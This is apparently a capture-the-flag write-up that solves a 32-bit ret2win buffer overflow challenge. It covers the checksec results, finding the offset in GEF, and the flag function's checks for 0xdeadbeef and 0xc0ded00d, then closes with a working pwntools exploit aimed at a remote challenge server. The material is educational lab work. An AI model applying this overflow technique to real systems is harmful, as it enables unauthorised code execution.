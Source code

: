 # You Know 0xdiablos
`Buffer Overflow` `32-Bits Binary` `Calling Convention`
<br>
<br>

First thing first, we are going to check the security for this binary using `checksec`, by doing that, we can get a clear information of what we're working with.

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

We can see that we're working with a `32-bits` binary with `partial RELRO` and no other security setted up. Using gdb with GEF, I tried to list what function does the binary have, and found a function called `flag`, I tried to disas the main function but didn't find the `flag` function to be called anywhere, so I assume this is a `ret2win` in a 32-bits binary.

Next step is finding the padding, using GEF is kinda simple, you just need to use `pattern create` then copy the pattern created, run the binary, and paste the pattern, eventually it'll hit he limit.

```
gef➤  pattern offset $esp
[+] Searching for '$esp'
[+] Found at offset 192 (little-endian search) likely
```

We can see that the offset is 192, but don't forget, in 32-bits binary, the esp offset includes the eip in it, so the actual offset is `offset - 4` or `188`.

Before I jump to the flag function, I'd checked the flag function, it requires 2 parameters to be fulfilled in order to print the flag, those are:

```
   0x08049246 <+100>:	cmp    DWORD PTR [ebp+0x8],0xdeadbeef
   0x0804924d <+107>:	jne    0x8049269 <flag+135>
   0x0804924f <+109>:	cmp    DWORD PTR [ebp+0xc],0xc0ded00d
   0x08049256 <+116>:	jne    0x804926c <flag+138>
```

With the informations we've gathered, we can try to build the payload now, the payload will look like this

```
payload = offset + address of flag + padding + param 1 + param 2
```

**Quick Explanation**  
Once we pop the `address of flag` the eip need to be filled with something, here is where our padding do the job filling the 4 bytes empty space at eip.

Final Exploit:

```python
from pwn import *

binary = ('./vuln')
elf = context.binary = ELF(binary, checksec=False)

#p = process(binary)
p = remote('178.128.42.95',31777)

p.recv()

payload = b'a'*(192-4)
payload+= p32(elf.sym['flag'])
payload+= b'a'*4
payload+= p32(0xdeadbeef)
payload+= p32(0xc0ded00d)

p.sendline(payload)

p.interactive()
```

Run the Exploit to the server and we got the flag.